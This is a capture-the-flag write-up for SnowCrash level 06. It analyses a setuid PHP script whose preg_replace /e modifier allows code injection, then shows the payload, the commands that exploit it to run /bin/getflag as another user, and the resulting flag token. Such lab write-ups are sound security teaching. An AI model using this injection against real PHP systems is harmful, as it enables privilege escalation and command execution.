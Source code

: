 # Level 06

## Reconnaissance

In the home directory of `level06`, we find two interesting files:

- `level06`: binary owned by `flag06`
- `level06.php`: a PHP script that appears to be related

```bash
level06@SnowCrash:~$ ls -l
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

## PHP Script Analysis

Content of `level06.php`:

```php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
```

### Vulnerability

- The script reads a file passed as the first argument.
- It uses `preg_replace` with the `/e` modifier, which evaluates the matched content as PHP code.
- This allows command injection by writing `[x ${\`/bin/getflag\`}]` in the input file.
- The call to `y()` slightly transforms the code, but `${\`command\`}` remains executable and bypasses it.

## Exploitation

Create a file with malicious content:

```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' > /tmp/exploit/input
level06@SnowCrash:~$ ./level06 /tmp/exploit/input
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

The binary executes the command as `flag06`, and the flag is revealed.

## Additional Notes
